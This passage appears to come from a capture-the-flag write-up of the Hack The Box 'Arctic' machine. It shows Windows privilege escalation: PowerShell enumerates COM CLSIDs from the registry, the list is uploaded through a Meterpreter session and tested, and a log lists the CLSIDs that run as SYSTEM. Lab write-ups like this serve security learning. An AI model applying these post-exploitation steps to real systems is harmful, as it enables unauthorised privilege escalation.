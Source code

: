 Extract valid CLIDs:

```powershell
PS C:\users\tolis\downloads> New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

WARNING: column "CurrentLocation" does not fit into the display and was removed
.

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT         

PS C:\users\tolis\downloads> $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
PS C:\users\tolis\downloads> echo $CLSID > CLSID_both.list

# Copy paste on the kali machine
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ awk '{print $2}' CLSID_only.list| tr -d '\000' > CLSID.list

meterpreter > upload CLSID.list
[*] uploading  : /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
[*] Uploaded 12.19 KiB of 12.19 KiB (100.0%): /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
[*] uploaded   : /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
meterpreter > shell
...
C:\users\tolis\downloads>.\test_clsid.bat
.\test_clsid.bat
{00021401-0000-0000-C000-000000000046} 10000
{000C101C-0000-0000-C000-000000000046} 10000
{0010890e-8789-413c-adbc-48f5b511b3af} 10000
{00BC7EAE-28D5-4310-BE9F-11526A7FA37F} 10000
{010911E2-F61C-479B-B08C-43E6D1299EFE} 10000
{01D0A625-782D-4777-8D4E-547E6457FAD5} 10000
...
```

Get system shell:

```powershell
C:\users\tolis\downloads>type result.log
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};ARCTIC\tolis
{095B9B12-8BDE-49D2-984B-BF01B4F8CDAF};NT AUTHORITY\SYSTEM
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
{5BF9AA75-D7FF-4aee-AA2C-96810586456D};NT AUTHORITY\LOCAL SERVICE
{659cdea7-489e-11d9-a9cd-000d56965251};NT AUTHORITY\SYSTEM
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM
{6d8ff8e0-730d-11d4-bf42-00b0d0118b56};ARCTIC\tolis
{6d8ff8e8-730d-11d4-bf42-00b0d0118b56};ARCTIC\tolis
{752073A1-23F2-4396-85F0-8FDB879ED0ED};NT AUTHORITY\SYSTEM
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{8F5DF053-3013-4dd8-B5F4-88214E81C0CF};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};ARCTIC\tolis
{98068995-54d2-4136-9bc9-6dbcb0a4683f};ARCTIC\tolis
{9acf41ed-d457-4cc1-941b-ab02c26e4686};ARCTIC\tolis
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM 
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM 
{d20a3293-3341-4ae8-9aaf-8e397cb63c34};NT AUTHORITY\SYSTEM 
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM 
```